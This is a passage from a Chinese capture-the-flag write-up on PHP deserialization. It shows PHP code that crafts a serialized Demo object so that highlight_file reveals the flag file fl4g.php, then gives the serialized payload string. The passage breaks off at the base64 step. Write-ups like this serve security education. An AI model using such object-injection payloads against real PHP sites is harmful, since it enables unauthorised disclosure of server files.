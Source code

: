  更多关于序列化的资料请参考

> [php 序列化与反序列化](https://blog.csdn.net/qq_35958788/article/details/82975885)



### 获取 flag

#### 构造 序列化

根据注释的明示直接访问 fl4g.php ，果然是一片空白。

不过证明的确实有这个文件，并且 flag 就存在这个文件的代码中，需要我们使用 `highlight_file` 方法来显示出来。

![](http://markdown.yeek.top/20200211233941.png)



构造 `Demo` 类，传入 `$file = fl4g.php` ，然后反序列化

```php
<?php
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}

$file = 'fl4g.php';
$demo = new Demo($file);
$s = serialize($demo);
print_r($s);
echo("<br>");
print_r(base64_encode($s));
?>
```

> 可以使用 在线php 方便的调试 php 代码
>
> <http://www.dooccn.com/php/>

得到结果序列化结果：

`O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}`

base64 编码后：
